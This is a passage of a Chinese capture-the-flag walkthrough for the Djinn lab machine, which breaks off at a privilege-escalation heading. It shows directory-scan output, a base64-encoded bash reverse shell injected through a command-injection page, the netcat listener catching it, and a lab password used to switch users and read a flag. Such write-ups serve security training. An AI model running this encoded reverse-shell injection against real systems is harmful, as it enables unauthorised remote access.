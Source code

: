 ```shell
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

genie                   [Status: 200, Size: 1676, Words: 200, Lines: 41]
wish                    [Status: 200, Size: 385, Words: 60, Lines: 21]
```

经过一段时间扫描，得知存在路径*/wish*，并且该页面存在命令注入漏洞，多次尝试后传递以下命令即可Getshell：

```bash
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTE2LzU1NjYgMD4mMQo=" | base64 -d | bash
```

> `echo "bash -i >& /dev/tcp/192.168.1.116/5566 0>&1" | base64`

### Getshell

Kali监听*5566*端口即可getshell

```shell
┌──(root💀kali)-[~]
└─# nc -lvp 5566
listening on [any] 5566 ...
192.168.1.122: inverse host lookup failed: Unknown host
connect to [192.168.1.116] from (UNKNOWN) [192.168.1.122] 55508
bash: cannot set terminal process group (543): Inappropriate ioctl for device
bash: no job control in this shell
www-data@djinn:/opt/80$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

查看*app.py*源码可知其中*CREDS*变量读取的是*creds.txt*文本文件，通过查看该文本，知道*nitish*账户的密码是：*p4ssw0rdStr3r0n9*。

切换到*nitish*账户，在其*/home*目录下得到第一个flag：

```shell
www-data@djinn:/opt/80$ su - nitish
su - nitish
Password: p4ssw0rdStr3r0n9

nitish@djinn:~$ pwd
pwd
/home/nitish
nitish@djinn:~$ ls
ls
user.txt
nitish@djinn:~$ cat user.txt
cat user.txt
10aay8289ptgguy1pvfa73alzusyyx3c
```

### 提权
